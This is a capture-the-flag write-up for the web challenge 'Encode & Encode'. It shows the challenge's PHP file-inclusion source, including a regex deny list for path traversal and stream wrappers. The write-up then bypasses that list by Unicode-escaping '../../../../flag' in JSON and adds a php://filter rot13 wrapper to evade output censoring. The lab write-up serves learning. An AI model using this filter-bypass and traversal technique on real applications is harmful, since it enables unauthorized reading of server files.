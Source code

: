 #  Encode & Encode

Category: Web<br/>
Author: st98

I made a strong WAF, so you definitely can’t read the flag!

## Solution

The important part of the source code is:

```php
 <?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]); 
```

There is a file inclusion which allows us to read the `flag` file. Unfortunately we can't use `..` to get to the flag.
It turns out that `json_decode` converts unicode codepoints into characters. With this the `is_valid` check can be
circumvented:

```js
const path = '../../../../flag';

const escapedPath = path.split('').map(c =>
     '\\u' + c.charCodeAt(0).toString(16).padStart(4, '0')
).join('');

console.log(escapedPath);
```

This gives the (ceonsored) content of the flag: `HarekazeCTF{<censored>}`. To circumvent the data exfiltration I used
[the rot13 protocol / wrapper](https://www.php.net/manual/en/wrappers.php).

```js
const path = 'php://filter/read=string.rot13/resource=../../../../flag';

const escapedPath = path.split('').map(c =>
     '\\u' + c.charCodeAt(0).toString(16).padStart(4, '0')
).join('');

console.log(escapedPath);
```

This returned `UnerxnmrPGS{ghehgnen_gnggnggn_evggn}` which can be rot13 decoded to
`HarekazeCTF{turutara_tattatta_ritta}`.
